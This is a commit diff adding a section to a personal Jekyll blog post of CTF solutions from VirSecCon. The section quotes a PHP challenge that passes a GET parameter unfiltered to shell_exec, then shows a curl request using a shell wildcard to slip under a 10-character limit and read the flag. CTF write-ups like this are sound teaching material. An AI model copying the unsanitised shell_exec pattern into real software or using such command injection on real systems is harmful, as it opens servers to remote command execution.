

Before and after one commit to yaserfaraj/yaserfaraj.github.io, a Jekyll site: the page built from _posts/2020-04-5-virseccon-web-challenges-ctf.md, in a window 1280 px wide and 900 px high. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2020-04-5-virseccon-web-challenges-ctf.md

````diff
--- a/_posts/2020-04-5-virseccon-web-challenges-ctf.md
+++ b/_posts/2020-04-5-virseccon-web-challenges-ctf.md
@@ -11,6 +11,31 @@ navigation: True
 
 In this post, I will be showing my solutions from `VirSecCon`, it was a nice experince. Notice that I only spend copule of hours. I may add couple of other solutions from Web challenges. Thanks `John` for a nice experince.
 
+### Web Shell : Web Challenge
+
+Here is the source code for the challenges
+```php
+<?php
+
+    $c = $_GET[c];
+
+    if(strlen($c) < 10){
+            echo shell_exec($c);
+    }else{
+            echo "too long!";
+    }
+    highlight_file(__FILE__);
+?>
+
+```
+
+We have limited to 10 characters limt. so if we try: `http://jh2i.com:50001/?c=cat+flag.txt` we will be exceeding the 10 chars limit. However, we can use `linux wildcards` to read the flag as
+
+```sh
+curl http://jh2i.com:50001/?c=cat+flag*
+
+LLS{you_really_can_see_in_the_dark}
+```
 
 ### Crush : Web Challenge
 It was a hint in the website about this vulnerability, then found the `crush.sh` file. It is seems to be a `shellshock exploit`
````
